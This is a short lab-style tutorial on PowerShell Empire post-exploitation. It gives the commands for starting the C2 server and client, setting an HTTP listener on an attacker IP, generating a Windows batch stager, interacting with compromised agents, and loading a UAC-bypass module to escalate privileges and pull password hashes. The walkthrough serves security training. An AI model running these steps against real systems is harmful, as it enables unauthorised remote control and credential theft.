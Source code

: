 # Welcome to Cyber Secure Labs

Created: December 9, 2021 7:33 PM

Public Site for sharing security writes

## Post Exploitation

### Working with Powershell Empire

Empire is a “PowerShell and Python post-exploitation agent” with a heavy focus on client-side

Windows Platform: Exploitation and post exploits are performed using Powershell.

Linux & macOS: Exploitation requires Python 2.6 or 2.7

In the latest version of Powershell Empire comes with a cleint-server model.

To start the server, the command is below:

```bash
sudo powershell-empire server

```

![Untitled](./Untitled.png)

To start the client, the command is below:

```bash
sudo powershell-empire client

```

![Untitled](Welcome%20to%20Cyber%20Secure%20Labs%208e32e2f1837b4723ae8a7c2391aa51ce/Untitled%201.png)

After starting both the client an server, the methodology used to carry out an attack are as follows:

1. Start a Listener
2. Start a Stager
3. Listing the Agents
4. Interact with the agents
5. Run Post Exploitation commands

### Setting up a listener:

```
uselistener http

set Name test2

set Host 192.168.119.208

set Port 4444

execute

```

![Untitled](Welcome%20to%20Cyber%20Secure%20Labs%208e32e2f1837b4723ae8a7c2391aa51ce/Untitled%202.png)

### Setting up a stager:

```
usestager windows/launcher_bat

set Listener test

execute

```

### Setting up a stager:

```
agents

```

### Interacting with an agent

```
interact S2PRDACB

```

### Post Exploitation Commands:

```
info

```

### Elevating Privileges and Extracting Password Hashes

To do this, type the following command:

```
usemodule powershell/privesc/bypassuac_env

```

Set Listener to http, since we are using a http listener, and Agent to the agent from the victim machine.

use the info command to see what options are needed to be set.

```
info

```
